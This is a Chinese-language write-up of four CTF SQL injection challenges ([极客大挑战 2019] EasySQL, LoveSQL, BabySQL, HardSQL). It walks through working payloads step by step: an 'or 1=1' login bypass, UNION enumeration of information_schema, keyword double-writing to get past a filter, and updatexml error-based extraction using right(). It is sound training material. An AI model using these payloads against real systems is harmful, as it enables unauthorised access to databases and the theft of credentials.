

# sql刷题时间！

## [极客大挑战 2019]EasySQL

靶机启动如图

先尝试登录用户名，试验万能密码:

user=admin' or 1=1 #

(说明其应该就是简单的WHERE判别结构)

直接得到flag{e262cc0f-ada3-46a1-adaa-459d6fce9529} 

## [极客大挑战 2019]LoveSQL

上面一行红色的小字是“用sqlmap是没有灵魂的”（笑）

尝试万能密码user=admin' or 1=1 #

显示Your password is '624a1da197e6a30eaf32e7870b74774d'，但是试验之后这并不是flag，大概是出题人的恶趣味（笑）

本以为是简单的hex编码然后存储信息，不过译码出来是乱码，也不像base64/32，所以暂时搁置这一串数字。

测试一下过滤，发现几乎没有过滤任何字符，那么我们可以采用这样的思路：

***数据库名 -> 表名 -> 字段***

(ps:在bs中用repeater传参数时要用url编码不然会出问题)

?username=admin' union select * from a#
?username=admin%27%20union%20select%20%2A%20from%20a%23

返回：

Table 'geek.a' doesn't exist

这说明数据库的名字是geek

或者使用updatexml进行error-type注入：

?username=admin' or updatexml(1, concat(1,database()), 1)#
?username=admin%27%20or%20updatexml(1,%20concat(1,database()),%201)%23

（database()函数返回当前数据库名

返回：

XPATH syntax error: 'geek'

同样可以爆出数据库名字geek

接下来爆表名

?username=admin' union select 1,2,3,4
?username=admin%27%20union%20select%201,2,3,4%23

这里union用作联合查询，查询一组虚拟的数据(1,2,3,4)，这组数据如果和前面的select的元素个数不同就会报错，所以可以试出前面select了几个元素

报错：

The used SELECT statements have a different number of columns

换成三个：

?username=admin' union select 1,2,3

对了，不过还是显示admin，说明表里的user还真是admin，我们换一个：

?username=admi' union select 1,2,3

Hello 2！

Your password is '3'

可以看到原来数据的位置被我们的2,3替换，这下看懂了

现在开始走流程爆表名和字段

用information_schema查询表名：

?username=admi' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
?username=admi%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23

得到：

Your password is 'geekuser,l0ve1ysq1'

说明有两个表geekuser和l0ve1ysql

猜flag在后者里面，继续用information_schema爆字段：

?username=admi' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'#
?username=admi%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27l0ve1ysq1%27%23

返回：

Your password is 'id,username,password'

这三个字段得到了之后，就去查查password吧：

?username=admi' union select 1,2,group_concat(password) from l0ve1ysq1#
?username=admi%27%20union%20select%201,2,group_concat(password)%20from%20l0ve1ysq1%23

返回：

Your password is 'wo_tai_nan_le,glzjin_wants_a_girlfriend,biao_ge_dddd_hm,linux_chuang_shi_ren,a_rua_rain,yan_shi_fu_de_mao_bo_he,cl4y,di_2_kuai_fu_ji,di_3_kuai_fu_ji,di_4_kuai_fu_ji,di_5_kuai_fu_ji,di_6_kuai_fu_ji,di_7_kuai_fu_ji,di_8_kuai_fu_ji,Syc_san_da_hacker,flag{16f097c0-bd77-4e64-980f-5f3e878aacd1}'

最后一栏就是flag！

## [极客大挑战 2019]BabySQL

用bs测过滤，无过滤！

试万能密码：

?username=cangxue' or 1=1#
?username=cangxue%27%20or%201=1%23

返回：

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1=1#' and password='cangxue'' at line 1

哎，哪来的quote呢？

仔细一想，应该是or被替换成空字符了，所以双写or试试看：

?username=cangxue' oorr 1=1#

这么一看其实是有过滤的，前面想当然了

重新检查intruder的结果，发现以下会被替换：

* + < > <> and or if select sleep union where by mid substr from

所以只要在前面那道题的基础上双写关键字应该就可以，一步步来吧，先看数据库：

?username=cangxue' oorr updatexml(1, concat(1,database()), 1)#
?username=cangxue%27%20oorr%20updatexml(1,%20concat(1,database()),1)%23

返回：

XPATH syntax error: 'geek'

名字还是叫geek

?username=cangxue' uniunionon selselectect 1,2,3#
?username=cangxue%27%20uniunionon%20selselectect%201,2,3%23

Hello 2！

Your password is '3'

前面的select还是三个参数，

那么就来看表名吧

?username=cangxue' uniunionon selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema=database()#
?username=cangxue%27%20uniunionon%20selselectect%201,2,group_concat(table_name)%20frfromom%20infoorrmation_schema.tables%20whewherere%20table_schema=database()%23

返回：

Your password is 'b4bsql,geekuser'

这次不用看就是在b4bsql里面：

?username=cangxue' uniunionon selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_schema=database() anandd table_name='b4bsql'#
?username=cangxue%27%20uniunionon%20selselectect%201,2,group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whewherere%20table_schema=database()%20anandd%20table_name=%27b4bsql%27%23

Your password is 'id,username,password'

来吧让我们看看password里有什么好东西：

?username=cangxue' uniunionon selselectect 1,2,group_concat(passwoorrd) frfromom b4bsql#
?username=cangxue%27%20uniunionon%20selselectect%201,2,group_concat(passwoorrd)%20frfromom%20b4bsql%23

最后一项就是flag:

flag{a2d99e3a-8b13-429e-b894-3fe95c321fe2}

完成！

## [极客大挑战 2019]HardSQL

先找过滤：

! * & = + | < > --+ /**/ && || <> and if sleep union by benchmark mid substr handler

而且这次检测到之后会直接强制退出流程，

直接输出：

你可别被我逮住了，臭弟弟

好狠啊作者...

而且两边有内容的空格a%20a也会被过滤掉，不过好消息是小括号可以用！

那就先探索一下闭合符号吧：

?username=cangxue'
?username=cangxue%27

返回一个syntax error：

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'cangxue'' at line 1

说明闭合是quote

在union被禁用的情况下，我们选择使用error-type的注入。

总之思路还是和前面一样：

***数据库名 -> 表名 -> 字段***

这次我们就跳过数据库了（懒）

先看表名：(=可以用like代替)

?username=cangxue'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database())))，0x7e),1))#
?username=cangxue%27or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),0x7e),1))%23

XPATH-error返回：

XPATH syntax error: '~H4rDsq1~'

这次唯一的表名叫H4rDsq1。

查字段：

?username=cangxue'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(((table_schema)like(database())))),0x7e),1))#
?username=cangxue%27or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_schema)like(database()))),0x7e),1))%23

（因为只有一张表，所以懒得加table_name=了）

返回：

XPATH syntax error: '~id,username,password~'

查password：

?username=cangxue'or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))#
?username=cangxue%27or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))%23

返回：

XPATH syntax error: '~flag{c526d579-8b57-445e-9604-71'

发现flag的右半不见了，但是substr被禁用，我们用right函数即可，

有些注入场景下，回显只能显示部分内容，而你想让回显里出现你关注的内容（比如flag的最后几位），这时用 right() 很方便：

?username=cangxue'or(updatexml(1,concat(0x7e,right((select(password)from(H4rDsq1)),31),0x7e),1))#
?username=cangxue%27or(updatexml(1,concat(0x7e,right((select(password)from(H4rDsq1)),31),0x7e),1))%23

返回：

XPATH syntax error: '~79-8b57-445e-9604-715dea2ce70d}'

(注意中间有重叠)

拼凑起来得到flag：

flag{c526d579-8b57-445e-9604-715dea2ce70d}

